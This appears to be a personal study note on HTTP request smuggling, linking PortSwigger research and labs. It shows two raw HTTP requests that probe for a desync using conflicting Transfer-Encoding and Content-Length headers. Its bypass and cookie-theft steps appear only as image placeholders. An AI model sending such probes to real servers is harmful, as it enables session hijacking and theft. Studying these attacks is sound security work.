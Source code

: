 # http-request-smuggling
## Links
Portswigger: https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn
OnlineLab: https://portswigger.net/web-security/request-smuggling

![[Pasted image 20210404103936.png]]
![[Pasted image 20210404104014.png]]
![[Pasted image 20210404105914.png]]

## Detecting desync

```html
POST /about HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Length: 6

3
abc
Q
```

```html
POST /about HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Length: 6

3

X
```

## Confirm
![[Pasted image 20210404105726.png]]

## Bypassing 
![[Pasted image 20210404123048.png]]
![[Pasted image 20210404123146.png]]

## Get a random User
![[Pasted image 20210404123952.png]]

## Get a Cookie 
![[Pasted image 20210404124613.png]]